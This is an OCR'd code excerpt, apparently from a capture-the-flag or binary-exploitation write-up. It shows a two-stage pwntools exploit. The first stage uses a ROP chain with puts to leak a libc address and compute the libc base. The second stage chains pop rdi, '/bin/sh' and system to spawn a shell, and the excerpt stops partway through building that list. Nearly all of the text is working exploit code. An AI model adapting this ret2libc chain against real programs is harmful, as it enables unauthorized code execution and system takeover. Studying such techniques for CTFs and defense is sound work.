 ```python
    # create a rop chain with pwntools

    rop=ROP(elf)
    pop_rdi = p64(rop.find_gadget(['pop rdi', 'ret'])[0])

    # create buffer

    stage1_payload = [
            padding,
            pop_rdi,
            puts_got,
            puts_plt,
            main_plt
            ]

    stage1_payload = b"".join(stage1_payload)

    # send the stage 1 payload

    p.sendlineafter("?\n",stage1_payload)

    # print address of put in libc

    puts_leaked=u64(p.recvuntil("\n").strip().ljust(8,b"\x00"))
    info(f"Puts LEAK address: {hex(puts_leaked)}")

    # calculate libc base address

    libc_base_address = puts_leaked - libc.symbols['puts']

    #print the base address

    info(f"LIBC BASE address: {hex(libc_base_address)}")

    ############### Stage 2 Payload  #############################
    
    # The second payload will send when the firt return to main. 
    # The payload is a rop chain that will gave us a nice shell
    # 
    # padding + pop_rdi + binsh + system


    # calculate the address of system and "/bin/sh" inside libc

    system_inside_libc=libc.symbols['system']
    binsh_inside_libc=next(libc.search(b'/bin/sh'))
    exit_iniside_libc=libc.symbols['exit']


    # Now calculate the real address in execution time

    system=p64(libc_base_address + system_inside_libc)
    binsh=p64(libc_base_address + binsh_inside_libc)
    exit=p64(libc_base_address + exit_iniside_libc)

    # join all and send as second input. Crossfinger !!!
    # padding + pop_rdi + binsh + system

    stage2_payload = [
        padding,
        pop_rdi,
        binsh,
        system,
```